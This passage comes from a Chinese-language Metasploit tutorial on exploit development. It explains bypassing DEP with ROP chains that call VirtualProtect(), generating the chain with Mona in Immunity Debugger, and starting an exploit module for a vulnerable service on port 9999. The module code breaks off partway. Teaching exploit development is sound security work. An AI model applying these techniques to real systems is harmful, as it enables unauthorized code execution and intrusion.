 指令执行如何绕过硬件启用的 DEP 保护？

答案很简单。诀窍在于将这些 ROP gadgets 链接起来调用`VirtualProtect()`函数，这是一个用于使堆栈可执行的内存保护函数，以便 shellcode 可以执行。让我们看看我们需要执行哪些步骤才能使利用在 DEP 保护下工作：

1.  找到 EIP 寄存器的偏移量

1.  用第一个 ROP gadget 覆盖寄存器

1.  继续用其余的 gadgets 覆盖，直到 shellcode 变得可执行

1.  执行 shellcode

# 使用 Mona 创建 ROP 链

使用 Immunity Debugger 的 Mona 脚本，我们可以找到 ROP gadgets。然而，它还提供了自己创建整个 ROP 链的功能，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/488269bb-b3c7-4609-b3de-0c7cbb5f008a.png)

在 Immunity Debugger 的控制台中使用`!mona rop -m *.dll -cp nonull`命令，我们可以找到关于 ROP gadgets 的所有相关信息。我们可以看到 Mona 脚本生成了以下文件：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/fb4f21a9-c0ad-43e5-99dd-cdeb145d080b.png)

有趣的是，我们有一个名为`rop_chains.txt`的文件，其中包含可以直接在利用模块中使用的整个链。该文件包含了在 Python、C 和 Ruby 中创建的用于 Metasploit 的 ROP 链。我们只需要将 ROP 链复制到我们的利用中，就可以了。

为触发`VirtualProtect()`函数创建 ROP 链，我们需要以下寄存器的设置：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/a949b3aa-4cb1-4243-99c3-5745db324264.png)

让我们看一下 Mona 脚本创建的 ROP 链，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/80399eaa-788b-46d3-9749-d46e0614de54.png)

我们在`rop_chains.txt`文件中有一个完整的`create_rop_chain`函数，用于 Metasploit。我们只需要将这个函数复制到我们的利用中。

# 编写 DEP 绕过的 Metasploit 利用模块

在这一部分，我们将为同一个易受攻击的应用程序编写 DEP 绕过利用，我们在利用栈溢出漏洞时失败了，因为 DEP 已启用。该应用程序在 TCP 端口`9999`上运行。因此，让我们快速构建一个模块，并尝试在同一应用程序上绕过 DEP：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'DEP Bypass Exploit', 
      'Description'    => %q{ 
         DEP Bypass Using ROP Chains Example Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
      'space' => 312, 
      'BadChars' => "\x00", 
      }, 
      'Targets' => 
       [ 
                  ['Windows 7 Professional',{ 'Offset' => 2006}] 
```